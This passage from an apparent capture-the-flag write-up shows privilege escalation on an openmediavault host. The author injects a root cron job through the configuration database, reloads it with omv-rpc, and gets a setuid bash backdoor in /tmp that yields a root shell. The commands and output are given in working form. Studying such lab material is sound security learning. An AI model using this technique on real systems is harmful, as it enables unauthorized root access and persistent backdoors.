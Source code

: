

There's a typo in the example where the closing `sendmail` tag is
missing the `/`. Not having this will fail with `omv-confdbadm` (which
is why it's nice to have as a check).

With a valid DB, I'll reload the `cron` module using RPC:



    openmediavault-webgui@derailed:/etc/openmediavault$ /usr/sbin/omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"cron\"], \"force\": true }"
    null



I'll wait a minute, and then my `bash` backdoor is present:



    openmediavault-webgui@derailed:/etc/openmediavault$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1234376 Jul 20 16:51 /tmp/0xdf



And I can run it to get a root shell (euid = 0):



    openmediavault-webgui@derailed:/etc/openmediavault$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) euid=0(root) groups=996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)



Looking at how this works, I'll find a few files in `/etc/cron.d` that
are managed by openmediavault:



    root@derailed:/etc/cron.d# ls
    anacron  e2scrub_all  mdadm  openmediavault-mkrrdgraph  openmediavault-powermngmt  openmediavault-userdefined  php



The `openmediavault-userdefined` on has my job:



    root@derailed:/etc/cron.d# cat openmediavault-userdefined 
    # This file is auto-generated by openmediavault (https://www.openmediavault.org)
    # WARNING: Do not edit this file, your changes will get lost.
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    # m h dom mon dow user    command
    * * * * * root /var/lib/openmediavault/cron.d/userdefined-b8068c15-0d5e-4d38-a7d0-6885a31c8a53 >/dev/null 2>&1
